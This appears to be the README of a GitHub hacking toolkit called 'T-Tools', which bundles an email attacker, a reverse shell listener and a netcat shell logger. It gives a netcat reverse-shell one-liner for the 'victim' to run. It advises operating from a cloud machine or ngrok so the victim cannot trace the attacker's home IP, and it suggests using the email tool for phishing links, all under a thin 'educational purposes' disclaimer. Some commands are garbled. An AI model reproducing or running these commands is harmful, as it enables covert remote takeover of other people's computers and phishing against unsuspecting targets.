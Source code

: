 # T-Tools-advanced--cyber-security 


# What is T-Tools

* T-Tools is an advanced cyber-security tools set.


# What does it includes

What does it include for cyber-security

An email attacker
A web scrapper
An advanced  reverse shell listener
An advanced netcat shell logger

What does it include for normal work

It includes 

A random password generator
simple phone number locator

# Installation

 this works for almost every operating system
 
 In your terminal type these commands
 
    $ sudo install git
    $ git clone https://github.com/Hirukshacoder/T-Tools-advanced--cyber-security/
    $ cd T-Tools-advanced--cyber-security
    $ pip install -r requirements.txt
    $ python3 main.py
           
# Reverse shells 
 
To use the listener change the ip in net.py and run it to start listening

Makesure you add your ip to the victim's command.

* Guidlines 

* Always use a cloud linux machine or another os in the cloud, because when the victim type the command he can grab your home network ip.

* And this tool is only for educational purposes.

* This tool can take the full control of the computer.

* Another thing is that you can start listening on any port.
 
* Also you have to add your ip to the net.py as well as the victim's command in version 1.0. 

* And you can use linode, aws or google cloud services to make your cloud machine.

* You can even use ngrok tcp to use reverse - X

# Vol 1.0 

      kali@attacker - $ nano reverse.py
      kali@attacker - $ < add your ip to the listen >
      kali@attacker - $ python3 reverse.py
      kali@victim - $ mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc <attacker ip> 9999 >/tmp/f  
    
    
 # Vol 1.1
 
      kali@attacker - $ python3 reverse.py
      kali@victim - $ mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 0.0.0.0 ip> 9999 >/tmp/f
           
           
           
           
           
     
 
           
    
# e-mail Attacker     

* This tool needs gmail less secure app access.

* To use it for phishing you can make a phishing link and attach to it.

* Your passwords won't be saved.

To activate 

        kali@attacker - $ python3 email-attacker.py 
        



Made with 💖 by THb 
